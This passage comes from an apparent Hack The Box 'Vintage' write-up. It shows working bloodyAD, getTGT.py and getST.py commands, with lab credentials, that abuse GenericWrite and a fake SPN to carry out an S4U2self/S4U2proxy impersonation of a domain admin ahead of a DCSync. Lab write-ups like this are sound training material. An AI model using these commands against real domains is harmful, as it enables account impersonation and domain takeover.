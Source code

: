 This user is part of the `DELEGATEDADMINS` group. Members of this group have the `msds-AllowedToActOnBehalfOfOtherIdentity` attribute on the computer `DC01.VINTAGE.HTB`. We can use these privileges to execute a modified S4U2self/S4U2proxy abuse chain to impersonate any domain user to the target computer system and receive a valid service ticket "as" this user. However, in order to perform the attack we need to have access to an account with an SPN set.

The trick here is that the user `c.neri_adm` has `GenericWrite` over the `DELEGATEADMINS` group and from earlier we have full control over the service account `svc_sql`. Therefore we can add this account to the `DELEGATEADMINS` group and add a fake SPN to the account. By doing this we have all the requirements for a constrained delegation attack. Lets add the `svc_sql` user to the group, change the SPN and get their TGT.

```console
$ bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d "VINTAGE.HTB" -u c.neri_adm -p 'Uncr4ck4bl3P4ssW0rd0312' -k add groupMember "DELEGATEDADMINS" "SVC_SQL"
[+] SVC_SQL added to DELEGATEDADMINS

$ export KRB5CCNAME=C.Neri.ccache
$ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k set object "SVC_SQL" servicePrincipalName  -v "cifs/bleed" 
[+] SVC_SQL's servicePrincipalName has been updated

$ getTGT.py vintage.htb/svc_sql:Zer0the0ne -dc-ip dc01.vintage.htb
```

In BloodHound the permissions will now look as follows:

![](/assets/images/writeups/vintage/BH-SQL-delegate.png)

With the TGT of `svc_sql` we can now perform a S4U2Self attack in order to impersonate `L.BIANCHI_ADM` since this user has complete control over the domain.

```console
$ export KRB5CCNAME=svc_sql.ccache
$ getST.py -spn 'cifs/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -dc-ip 10.10.11.45 -k 'vintage.htb/svc_sql:Zer0the0ne'  
[*] Impersonating L.BIANCHI_ADM
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
```

Now we can perform a DCSync attack and grab the root flag.
